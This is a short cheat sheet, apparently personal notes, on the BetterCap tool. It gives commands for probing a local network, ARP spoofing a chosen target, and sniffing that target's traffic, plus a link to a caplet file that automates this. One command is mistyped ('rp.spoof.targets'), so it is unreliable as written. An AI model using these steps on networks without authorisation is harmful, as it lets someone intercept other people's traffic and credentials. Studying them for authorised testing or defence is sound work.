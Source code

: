 ```yaml
---
title: BetterCap
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


````bash
sudo apt install bettercap
# Start Bettercap on Interface
bettercap -iface <interface> 
# View all Modules
help 
help <module-name>
````

#### View Devices on Network

````bash
# Discover devices connected to Network
net.probe on 
net.show
````

#### ARP Spoofing

````bash
net.probe on
help arp.spoof
set arp.spoof.fullduplex true
````

If the router has protection against ARP spoofing then full duplex mode will not work. In that case leave the value as false. But then we cannot perform all attacks as the router will directly send the response to the target

````bash
set rp.spoof.targets <target-ip>
arp.spoof on
````

#### Sniff Data on Target Device

Enable net.probe & arp.spoof

````bash
net.sniff on
````

Instead of typing the commands again and again we can create an .cap file with all the commands that need to be executed

**Sniff Data Cap File**   
<https://drive.google.com/open?id=1Man5IhMekLHHNEw3rwGxkn9kpQBZhdGt>

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
````
